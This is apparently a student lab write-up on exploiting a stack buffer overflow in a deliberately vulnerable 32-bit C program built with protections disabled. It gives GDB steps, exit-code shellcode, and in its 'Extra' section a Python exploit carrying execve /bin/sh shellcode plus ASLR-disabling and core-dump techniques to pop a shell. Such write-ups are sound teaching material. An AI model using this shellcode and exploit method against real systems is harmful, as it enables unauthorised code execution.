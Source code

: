 = Writeup
0x42697262; Orochi; Jinx
2024-02-24

Authors:

- 0x42697262
- Jinx
- Orochi

# Buffer overflow to exit

## TL;DR

Open GDB

```sh
gdb vuln
```

Run the program once

```
(gdb) r
```

Then exit (CTRL+C) and dissassemble the symbol `vuln`

```
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x5655617d <+0>:     push    %ebp
   0x5655617e <+1>:     mov     %esp,%ebp
   0x56556180 <+3>:     sub     $0x8,%esp
   0x56556183 <+6>:     lea     -0x8(%ebp),%eax
   0x56556186 <+9>:     push    %eax
   0x56556187 <+10>:    call    0xf7c741b0 <_IO_gets>
   0x5655618c <+15>:    add     $0x4,%esp
   0x5655618f <+18>:    nop
   0x56556190 <+19>:    leave
   0x56556191 <+20>:    ret
End of assembler dump.
```

Add a breakpoint on the first instruction and run it once again

```
(gdb) b *0x5655617d
Breakpoint 1 at 0x5655617d: file vuln.c, line 3.
(gdb) r
Breakpoint 1, vuln () at vuln.c:3
3	void vuln() {
```

Print the address of the variable `buffer`

```
(gdb) p &buffer
$1 = (char (*)[8]) 0xffffcd18
```

Craft the exploit with the shellcode payload and memory address of the `buffer`

```
\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff
```

Execute the exploit inside GDB

```
(gdb) r <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

The program should terminate with the exit status code `1`

```
[Inferior 1 (process 1027954) exited with code 01]
```

---

## Introduction

A vulnerable C source code is provided that accepts an unbounded number of non-null byte characters from standard input.
The goal is to construct a **shellcode** to cause the program to terminate with a desired **exit code** of `1` using a stack smashing attack.

Note that crashes due to malformed "shellcode" will not result in an exit code of `1` and therefore will not count.

---

## Pre-requisites

### Vulnerable C Source Code

```c
// vuln.c
#include <stdio.h>

void vuln() {
    char buffer[8];
    gets(buffer);
}

int main() {
    vuln();
    while (1) {
    }
}
```

### Tools

- GNU Compiler Collection (GCC)
- GNU Debugger (GDB)
- Netwide Assembler (NASM)
- objdump

### Compilation with disabled security protections

```sh
$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -fno-pie -ggdb -z execstack vuln.c -o vuln
```

- `-fno-stack-protector` disables stack smashing protection.
- `-m32` generate 32-bit architecture code.
- `-mpreferred-stack-boundary=2` stack boundary should be aligned in 4 bytes.
- `-ggdb` generate debug information compatible with the GDB debugger.
- `-fno-pie` disables position-independent executable (PIE) generation which randomizes the base address of the executable.
- `-z execstack` sets the stack as executable.

This compilation step is necessary otherwise it would almost be a bit harder to execute this type of buffer overflow.

```
*** stack smashing detected ***: terminated
[1]    1024635 IOT instruction (core dumped)
```

### Shellcode

Generally, we should acquire the shellcode somewhere like Shell-Storm.
But for the sake of learning, we can generate our own shellcode.
Knowledge in assembly language would be needed.
We have this shellcode that terminates the program with exit status code `1`

```asm
section .text
global main

main:
    xor eax, eax   ; Clear EAX register
    inc eax        ; Increment EAX to 1
    mov ebx, eax   ; Move the value of EAX into EBX (not %eab)
    int 0x80       ; Invoke system call
```

To compile,

```sh
$ nasm -f elf32 shellcode.asm -o shellcode.o
```

This should output an ELF LSB relocatable code `ELF 32-bit LSB relocatable, Intel 80386, version 1 (SYSV), not stripped`.
To acquire the shellcode to be used for the explotation payload, we can use `objdump`

```sh
$ objdump -M intel -d solutions/shellcode.o
```

Its output would be

```
solutions/shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <main>:
   0:   31 c0                   xor    eax,eax
   2:   40                      inc    eax
   3:   89 c3                   mov    ebx,eax
   5:   cd 80                   int    0x80
```

Putting all the bytes together, our shellcode is

```
\x31\xc0\x40\x89\xc3\xcd\x80
```

Which is just 7 bytes long.

## Methodology

The exit shellcode is 7 bytes long, small enough to fit inside the buffer, which has a size of 8 bytes.
The memory address location of the `buffer` will be used as the return address, as it is where the shellcode will be stored.
The next stack after `buffer` is the base pointer (EBP), and after the base pointer is the return address of the `vuln` function, which will be modified to point to the memory address of the `buffer`.

With this, an exploit can be crafted to terminate the program with the desired exit status code of `1`.

First, run GDB with the program as the parameter

```sh
$ gdb vuln
```

And should be greeted with

```
Reading symbols from vuln...
(gdb)
```

But set the assembly language syntax first to Intel

```
(gdb) set disassembly-flavor intel
```

---

### Enumeration

Since the binary is not stripped, the function symbols can be printed.
Disassemble the `main` and `vuln` symbols in assembly language using the `disassemble` command.

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x00001192 <+0>:     push    ebp
   0x00001193 <+1>:     mov     ebp,esp
   0x00001195 <+3>:     call    0x117d <vuln>
   0x0000119a <+8>:     jmp     0x119a <main+8>
End of assembler dump.

(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x0000117d <+0>:     push    ebp
   0x0000117e <+1>:     mov     ebp,esp
   0x00001180 <+3>:     sub     esp,0x8
   0x00001183 <+6>:     lea     eax,[ebp-0x8]
   0x00001186 <+9>:     push   eax
   0x00001187 <+10>:    call    0x1188 <vuln+11>
   0x0000118c <+15>:    add     esp,0x4
   0x0000118f <+18>:    nop
   0x00001190 <+19>:    leave
   0x00001191 <+20>:    ret
End of assembler dump.
```

The address of `buffer` must be known.
However, breakpoints cannot be added yet since the memory of the program is not yet allocated.

```
(gdb) run
```

And exit (CTRL+C).

Disassemble the symbols again for `vuln`:

```
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x5655617d <+0>:     push    ebp
   0x5655617e <+1>:     mov     ebp,esp
   0x56556180 <+3>:     sub     esp,0x8
   0x56556183 <+6>:     lea     eax,[ebp-0x8]
   0x56556186 <+9>:     push    eax
   0x56556187 <+10>:    call    0xf7c741b0 <_IO_gets>
   0x5655618c <+15>:    add     esp,0x4
   0x5655618f <+18>:    no
   0x56556190 <+19>:    leave
   0x56556191 <+20>:    ret
End of assembler dump.
```

The proper memory addresses can now be seen.
Add a breakpoint to the first instruction `push ebp`:

```
(gdb) break *0x5655617d
Breakpoint 1 at 0x5655617d: file vuln.c, line 3.
```

An `*` is needed since the address is a pointer.

Define hooks for the breakpoint:

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/16wx $esp
>end
```

These commands will automatically execute once a breakpoint is hit.
What it does is print out the instruction pointer of the current function and print out the 16 bytes of the stack pointer.

Rerun the program:

```
(gdb) run
=> 0x5655617d <vuln>:	push   ebp
0xffffcd24:	0x5655619a	0x00000000	0xf7c20af9	0x00000001
0xffffcd34:	0xffffcde4	0xffffcdec	0xffffcd50	0xf7e1fe2c
0xffffcd44:	0x56556192	0x00000001	0xffffcde4	0xf7e1fe2c
0xffffcd54:	0xffffcdec	0xf7ffcb60	0x00000000	0xa8a49fe9

Breakpoint 1, vuln () at vuln.c:3
3	void vuln() {
```

There are still no inputs provided here but the memory address of the `buffer` can already be acquired.

```
(gdb) print &buffer
$1 = (char (*)[8]) 0xffffcd18
```

The memory address of `buffer` is stored at `0xffffcd18` and this is where the standard input is stored.
To check, add another breakpoint on the `ret` instruction and continue the execution:

```
(gdb) break *0x56556191
Breakpoint 2 at 0x56556191: file vuln.c, line 6.
(gdb) continue
Continuing.
AAAABBBBCCCCDDDDAAAABBBBCCCCDDDD
=> 0x56556191 <vuln+20>:	ret
0xffffcd24:	0x44444444	0x41414141	0x42424242	0x43434343
0xffffcd34:	0x44444444	0xffffcd00	0xffffcd50	0xf7e1fe2c
0xffffcd44:	0x56556192	0x00000001	0xffffcde4	0xf7e1fe2c
0xffffcd54:	0xffffcdec	0xf7ffcb60	0x00000000	0xa8a49fe9

Breakpoint 2, 0x56556191 in vuln () at vuln.c:6
6	}
```

The input for this was `AAAABBBBCCCCDDDDAAAABBBBCCCCDDDD` as can be seen, the bytes got replaced up until `0xffffcd37`.
The contents of the `buffer` and the succeeding pointers can be checked by using the command `x/16wx`:

```
(gdb) x/16wx &buffer
0xffffcd18:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd28:	0x41414141	0x42424242	0x43434343	0x44444444
0xffffcd38:	0xffffcd00	0xffffcd50	0xf7e1fe2c	0x56556192
0xffffcd48:	0x00000001	0xffffcde4	0xf7e1fe2c	0xffffcdec
```

The first 8 bytes (`0x41414141	0x42424242`) are the buffer's contents.
The next 4 bytes (`0x43434343`) is the base pointer.
The next 4 bytes (`0x44444444`) is the return address which will be modified to point to the address of the `buffer` (at `0xffffcd18`).

### Exploitation

We can use any means necessary to send raw bytes to the input, but to make things simpler, we will be using `echo`.
Notice that the structure of the memory address is as follows:

```
[ 0x-------- 0x-------- ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The payload `\x31\xc0\x40\x89\xc3\xcd\x80` can be stored on the `buffer`'s memory space:

```
[ 0x8940c031 0x--80cdc3 ] [ 0x-------- ] [ 0x-------- ] ...
          buffer                ebp           esp
```

Notice that the raw bytes are stored in little-endian system.

Since the size of the payload is only 7 bytes long, NOP (no operation) instruction must be appended in order for the return address (ESP) to be modified.
The total size of the buffer and the EBP is 12 bytes.
Thus, there are 5 bytes worth of NOPs to be padded.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0x-------- ] ...
          buffer                ebp           esp
```

The equivalent shellcode is now `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90`.

Next is to add the memory address of the `buffer`.

```
[ 0x8940c031 0x9080cdc3 ] [ 0x90909090 ] [ 0xffffcd18 ] ...
          buffer                ebp           esp
```

Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
We can store the shellcode to our `egg`:

```sh
$ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" > egg
```

## Documentation of Proofs

To execute the exploit, run:

```
(gdb) run < egg
```

or

```
(gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

Which should successfully terminate the program with desired exit status:

```
[Inferior 1 (process 1075597) exited with code 01]
```

---

## Conclusion

Stack smashing is an archaic method of binary exploitation and past computers are vulnerable against this type of exploitation.
However, thanks to the Address Space Layout Randomization (ASLR) that modern operating systems are equipped with, it would be very difficult to execute this exploit in the current times.
Aside from ASLR, the `egg` machine code would not work universally to different computers due to how memory layouts are arranged since not every computers have the same memory size and the same applications ran.
Nonetheless, this is a fun exercise and we have learned a lot from it.

Solution files can be found here:

- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/egg[egg]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/exploit.py[exploit.py]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.asm[shellcode.asm]
- https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.o[shellcode.o]

---

## Acknowledgement and References

- https://www.youtube.com/@LiveOverflow[LiveOverflow] for usage of GDB.
- http://phrack.org/issues/49/14.html[Phrack Volume 7 Issue 49: Smashing The Stack For Fun And Profit] for teaching us on smashing the stack.
- https://practicalbinaryanalysis.com/[Practical Binary Analysis] for teaching assembly and basics of ELF.
- https://shell-storm.org/shellcode/index.html[Shell-Storm] for providing shellcodes.

## Extra

### Return Me Shell!

Writing a shellcode for exit status is quite boring.

Why don't we pop a shell instead?

Since it's annoying to use `echo` to generate our shellcode, we will be using our handy scripting language... Python!

To pop a shell, we need a shellcode for it.
Thankfully, we don't need to make one from scratch (because assembly is pain y'know) thanks to Shell-Storm.

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

This is probably at least 40 bytes long which does not fit inside the buffer's 8 byte size.

Save the shellcode in Python and add the other stuffs as well

```python
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

print(exploit)
```

And that's it!

Except this would not work because of how Python's `print()` function works.
To prove this, we will compare echo's output against Python's output

```sh
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x18\xcd\xff\xff\x90\x90\x90\x90\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" > eggshell
$ xxd eggshell
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 6222 4141 4141 4141 4141 4141 4141 5c78  b"AAAAAAAAAAAA\x
00000010: 3138 5c78 6364 5c78 6666 5c78 6666 5c78  18\xcd\xff\xff\x
00000020: 3930 5c78 3930 5c78 3930 5c78 3930 315c  90\x90\x90\x901\
00000030: 7863 3031 5c78 6462 5c78 6230 5c78 3036  xc01\xdb\xb0\x06
00000040: 5c78 6364 5c78 3830 5368 2f74 7479 682f  \xcd\x80Sh/ttyh/
00000050: 6465 765c 7838 395c 7865 3331 5c78 6339  dev\x89\xe31\xc9
00000060: 665c 7862 395c 7831 3227 5c78 6230 5c78  f\xb9\x12'\xb0\x
00000070: 3035 5c78 6364 5c78 3830 315c 7863 3050  05\xcd\x801\xc0P
00000080: 682f 2f73 6868 2f62 696e 5c78 3839 5c78  h//shh/bin\x89\x
00000090: 6533 5053 5c78 3839 5c78 6531 5c78 3939  e3PS\x89\xe1\x99
000000a0: 5c78 6230 5c78 3062 5c78 6364 5c78 3830  \xb0\x0b\xcd\x80
000000b0: 220a                                     ".

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
2fb5cad2ba0574d4ac536518b463de6ed4846e8f4dfa635910b71d7c1cdcc757  eggshell2
```

As you can see, the raw bytes of Python's print output is a mess and the hash values are not the same.
Hence, Python's print function should not be used
But, this can be fixed by using a standard library output.
The updated code is now:

```python
import sys
OFFSET      = b"\x41"
EIP         = b"\x18\xcd\xff\xff"
NOP         = b"\x90"
SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

exploit     = OFFSET * 12 + EIP + NOP*4 + SHELLCODE

sys.stdout.buffer.write(exploit)
```

Checking it once again:

```sh
$ python exploit2.py > eggshell2 && xxd eggshell2
00000000: 4141 4141 4141 4141 4141 4141 18cd ffff  AAAAAAAAAAAA....
00000010: 9090 9090 31c0 31db b006 cd80 5368 2f74  ....1.1.....Sh/t
00000020: 7479 682f 6465 7689 e331 c966 b912 27b0  tyh/dev..1.f..'.
00000030: 05cd 8031 c050 682f 2f73 6868 2f62 696e  ...1.Ph//shh/bin
00000040: 89e3 5053 89e1 99b0 0bcd 80              ..PS.......

$ sha256sum eggshell eggshell2
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell
b0200afddf57b3321ec88b73cddd7d7118fbac8cb8f9c8f781d3b1a0053367cd  eggshell2
```

Both shellcodes are now equal.

Python can now be used to exploit the vulnerable binary:

```sh
$ python exploit.py | ./vuln
```

This is done by piping Python's output to the input of the program.
However, this would not work and would cause an illegal instruction error:

```sh
[1]    1090485 done                              python exploit2.py |
       1090486 segmentation fault (core dumped)  ./vuln
```

This is because of ASLR randomizing the memory allocations everytime the program is run.
To disable ASLR without disabling the system's protection, one can do this:

```sh
$ python exploit.py | setarch $(uname -m) -R ./vuln
```

This execution may or may not work as the memory addresses in GDB compared to being run directly are different.
This can be fixed by figuring out the exact memory address.
There are many ways to do it but the simplest one that we have already done is through GDB and attaching GDB to the process of the program.
The process of debugging with an attached process is similar.

First run the vulnerable program with `setarch` and open up another terminal with GDB by attaching to the vulnerable process:

```sh
$ setarch $(uname -m) -R ./vuln
$ gdb -p <process id>
```

To find the process id, use `ps aux`.

And if this does not work, we can use `gcore` to dump the current memory of a process id and manually find our input:

```sh
$ gcore <process id>
```

Run the program again and find its process id:

```sh
$ setarch $(uname -m) -R ./vuln
$ ps aux | grep vuln

birb     1450296 71.4  0.0   2732  1096 pts/9    R+   10:32   5:17 ./vuln
```

Here, the process id is `1450296`.
We then dump the memory of the process after our input back in the program (I used `ABCD`):

```sh
$ gcore 1450296

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
0x5655619a in main ()
Saved corefile core.1450296
[Inferior 1 (process 1450296) detached]
```

This will create a core file dump in binary format.
Read the coredump in hex using any hex editor tools available, we'll use good old `xxd` and pipe it to `vim`:

```sh
$ xxd -g 4 core.1450296 | vim
```

Then find the input (which is `ABCD`).
There will be two results, find the memory addresses that contains the most likely data:

```
...
000043c0: 00000000 00000000 00000000 00000000  ................
000043d0: 11040000 41424344 0a000000 00000000  ....ABCD........
000043e0: 00000000 00000000 00000000 00000000  ................
...
```

vs:

```
...
00074f50: 00000000 2cfee1f7 0cceffff 60cbfff7  ....,.......`...
00074f60: 40cdffff 8c615556 38cdffff 41424344  @....aUV8...ABCD
00074f70: 00000000 48cdffff 9a615556 00000000  ....H....aUV....
...
```

The second result is more likely to contain the EBP and ESP.
We will use `0xffffcd48` (which is taken from `0xffffcd38` by adding 16 bytes) as the new return address

Replace the EIP in the script with the correct return address, we can now rerun the exploit:

```python
$ python exploit.py | setarch $(uname -m) -R ./vuln
sh-5.2$ uname -a
Linux NuclearChicken 6.7.4-arch1-1 #1 SMP PREEMPT_DYNAMIC Mon, 05 Feb 2024 22:07:49 +0000 x86_64 GNU/Linux
```

And voila!
We got a shell!

To conclude, there is not much difference in doing this method compared to GDB aside from automating the exploitation.
The difficulty of running the program outside GDB lies on the ASLR (if enabled) and computers allocating memory differently.
Aside from that, for the shellcode, there is no need to include the NOPs.
